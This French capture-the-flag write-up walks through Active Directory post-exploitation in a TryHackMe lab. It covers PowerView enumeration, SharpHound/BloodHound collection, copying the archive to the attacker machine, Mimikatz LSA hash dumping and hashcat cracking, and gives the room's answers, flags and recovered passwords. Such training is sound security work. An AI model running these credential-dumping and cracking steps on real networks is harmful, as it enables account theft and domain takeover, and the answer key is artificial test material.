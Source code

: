 ## Post-Exploitation

Utiliser SSH pour se connecter avec la machine Windows Server 1.1 avec les crédentials :
* Utilisateur : Administrator
* Mot de passe : P@$$W0rd
* Nom de domaine : CONTROLLER

```
$ ssh Administrator@10.10.114.119
```

#### Powerview :

Une fois sur la machine, lancer le PowerShell avec l'option -ep bypass :
```console
PS C:\Users\Administrator> powershell -ep bypass
```

PowerView est un outil de reconnaissance que qu'il faut utiliser avec beaucoup de précautions. Il écrit en powerShell. Le script PowerView.ps1 contient un certain nombre de fonctions que l'on peut utiliser pour énumérer le domaine.
Le lancer :
```console
PS C:\Users\Administrator>. .\Downloads\PowerView.ps1
```

Code source : https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1

Afin de visualiser toutes les fonctions fournies par le script voici une astuce :
```console
PS C:\Users\kreese\Documents> $currentFunctions = Get-ChildItem function:
PS C:\Users\kreese\Documents> . .\PowerView.ps1
PS C:\Users\kreese\Documents> $scriptFunctions = Get-ChildItem function: | Where-Object { $currentFunctions -notcontains $_ }
PS C:\Users\kreese\Documents> $scriptFunctions | Format-Wide -Column 4
```

Informations générales au sujet du domaine :
```console
Réponse : Get-NetDomainController
```

Enumérer les Common Name des utilisateurs du domaine :
```console
Réponse : Get-NetUser | select cn
```

Enumérer les groupes de type admin :
```console
Réponse : Get-NetGroup -GroupName *admin*
```

Quel est le dossier partagé qui n'est pas configuré en tant que tel par défaut ? Utiliser la commande Invoke-ShareFinder.
```console
Réponse : Share
```

Quel système d'exploitation s'exécute à l'intérieur du réseau en plus de Windows Server 2019 ?
```console
Réponse : Get-NetComputer -fulldata | select operatingsystem
```

```console
Réponse : Windows 10 Enterprise Evaluation
```

Un flag est caché parmi les utilisateurs. Trouvez le.
```console
Réponse : POST{P0W3RV13W_FTW}
```

---

#### Bloodhound :

<p align="center">
  <img src="https://i.imgur.com/BAT2ZAH.png" />
</p>

BloodHound est un outil permettant de cartographier un environnement Active Directory en le représentant sous forme de graphe.

##### Sur la machine Kali Linux :

Installer Neo4j :
```console
$ sudo apt-get update
$ sudo apt-get install neo4j
```
Vérifier la version :
```console
$ neo4j --version
```

Neo4j est un système de gestion de base de données au code source libre basée sur les graphes. Il est utilisé par Bloodhound.<br/>
Lancer Neo4j et vérifier que le service est accessible via le browser :
```console
$ sudo neo4j console
```

<p align="center">
  <img src="https://pencer.io/assets/images/2020-06-09-14-53-59.png" />
</p>

Installer Bloodhound :
```console
$ sudo apt-get install bloodhound
```

##### Une fois sur la machine Windows :

Lancer le PowerView avec l'option -ep bypass :
```console
PS C:\Users\Administrator> powershell -ep bypass
```

SharpHound est le collecteur de données officiel de BloodHound. Il est écrit en C# et utilise des fonctions API Windows natives et des fonctions d'espace de noms LDAP pour collecter des données à partir de contrôleurs de domaine.<br/>
Le lancer :
```console
. .\Downloads\SharpHound.ps1
```

```console
Réponse : Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName all-data.zip
```
<p>
  <img src="img/Screenshot_2021-09-20-TryHackMe-Post-Exploitation-Basics.png" />
</p>

Transférer l'archive générée vers votre machine linux d'attaque. Utiliser scp.

Exemple : scp username@IP_of_windows_machine:/C:/Users/Anshul/Desktop/myfile.zip /home/ubuntu/myfile.zip

Une fois sur la machine Kali Linux charger le fichier zip avec Bloodhound pour avoir la cartographie du domaine de la machine cible.<br/>
Utiliser les crédentials neo4j/neo4j pour se connecter.

<p align="center">
  <img src="https://i.imgur.com/thfZUOy.png" />
</p>

Quel service est-il également un domain admin ?
```console
Réponse : sqlservice
```

Quels sont les deux utilsateurs Kerberos ?
```console
Réponse : sqlservice, krbtgt
```

---

#### Mimikatz :

Mimikatz est un outil de post-exploitation qui permet de faire des dumps des mots de passe de la mémoire, mais aussi des hash, des codes PIN et des tickets pour le protocole d'identification réseau Kerberos.

Lancer Mimikatz :
```console
PS C:\Users\Administrator> cd .\Downloads\
PS C:\Users\Administrator\Downloads> .\mimikatz.exe
```

Vérifier que la sortie est "Privilege '20' ok" : Cela garantit que vous exécutez mimikatz en tant qu'administrateur.
```console
mimikatz # privilege::debug
```

Dumper les hashes :
```console
mimikatz # lsadump::lsa /patch
```

<p align="center">
  <img src="img/Screenshot_2021-09-20-TryHackMe-Post-Exploitation-Basics_01.png"/>
</p>

Maintenant que nous avons les hachages, nous pouvons essayer de les casser. Commençons par le faire en utilisant hashcat et rockyou.txt :

```console
$ locate rockyou.txt
```

Récuperer les hachages dans un fichier hashes.txt et faites tourner hashcat pour trouver les équivalents :
```console
$ cat hashes.txt
$ hashcat -m 1000 --force hashes.txt /usr/share/wordlists/rockyou.txt
```

En cas d'erreur :

Il faut installer les librairies nécessaires au fonctionnement de hashcat supérieur à la version 3.3.x :
```console
$ apt-get install libhwloc-dev ocl-icd-dev ocl-icd-opencl-dev
$ apt-get install pocl-opencl-icd
```

Quel est le mot de passe de la Machine1 ?
```console
Réponse : Password1
```

Quel est le hash du mot de passe de la Machine2 ?
```console
Réponse : c39f2beb3d2ec06a62cb887fb391dee0
```

---

#### Server Manager :

Se connecter à la machine Windows en Remote Desktop Protocol avec les crédentials :
* Utilisateur : Administrator
* Mot de passe : P@$$W0rd
* Nom de domaine : controller.local

```console
$ rdesktop -u SG ADRESSE_IP
```

<p align="center">
  <img src="https://cdn.dlcompare.com/game_tetiere/upload/gameimage/file/43698.png" />
</p>

Quel outil permet des tracer les evénements ?
```console
event viewer
```

Quel est le mot de passe du service SQL ? Regarder la description.
```console
MYpassword123#
```
